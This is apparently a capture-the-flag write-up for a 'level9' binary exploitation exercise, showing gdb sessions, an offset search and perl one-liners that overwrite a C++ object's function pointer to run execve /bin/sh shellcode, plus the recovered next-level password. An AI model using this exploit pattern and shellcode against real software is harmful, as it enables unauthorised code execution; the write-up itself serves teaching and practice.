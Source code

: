 # level9

In this level, we have a c++ program with an object.
The first step is to all understand and all convert to a pseudo c++ code (see source).

We can see at main+159: `call edx`. The goal is to change the edx pointer (by default `edx = refObj2`).

We can fill a str with `setAnnotation` function. So we will add a shellcode in the string of Obj using `setAnnotation` function and set the edx pointer to jump on `obj1._str`.

```bash
[COMPUTER]
> ./pattern.py create 200
AAA~AAA}AAA|AAA{AAAzAAAyAAAxAAAwAAAvAAAuAAAtAAAsAAArAAAqAAApAAAoAAAnAAAmAAAlAAAkAAAjAAAiAAAhAAAgAAAfAAAeAAAdAAAcAAAbAAAaAAA_AAA^AAA]AAA[AAA@AAA?AAA>AAA=AAA<AAA;AAA:AAA9AAA8AAA7AAA6AAA5AAA4AAA3AAA2AAA1
> ./pattern.py search AAAc
found at offset: 108

[VM]
> gdb level9
(gdb) $ b *main+142
(gdb) $ run 'AAA~AAA}AAA|AAA{AAAzAAAyAAAxAAAwAAAvAAAuAAAtAAAsAAArAAAqAAApAAAoAAAnAAAmAAAlAAAkAAAjAAAiAAAhAAAgAAAfAAAeAAAdAAAcAAAbAAAaAAA_AAA^AAA]AAA[AAA@AAA?AAA>AAA=AAA<AAA;AAA:AAA9AAA8AAA7AAA6AAA5AAA4AAA3AAA2AAA1'
...
# we see that $eax = "AAAc"
# searching for "AAAc" pattern with the python script -> offset = 108
```
So we can call the function at address `argv[1] + 108`. We can for example put the address of `obj1._str`.
```bash
> gdb level9
(gdb) $ b memcpy@plt
(gdb) $ r AAAA
(gdb) $ x $esp+0x4
0x0804a00c  # address of obj1._str
```

Let's try with this:
```bash
> gdb level9
(gdb) $ run `perl -e 'print "A"x108 . "\x0c\xa0\x04\x08"'`
... segfault: Invalid $PC address: 0x41414141
# so we know that we try to exec the code at _str address
```

Now, all we need is to put a pointer on _str address (the code will jump from this address), the pointer is only a few bytes after and we can put the shellcode.
```bash
> ./level9 `perl -e 'print "\x10\xa0\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "A"x56 . "\x0c\xa0\x04\x08"'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

```
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```


---

```
// print "shellcode + offset(108-size(shellcode)) + address to call eax

p 0x804a00c + 4
$1 = 0x804a010

r $(perl -e 'print "\x10\xa0\x04\x08" . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" . "\x90"x(108-28-4) . "\x0c\xa0\x04\x08"')

./level9 $(perl -e 'print "\x10\xa0\x04\x08" . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" . "\x90"x(108-28-4) . "\x0c\xa0\x04\x08"')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```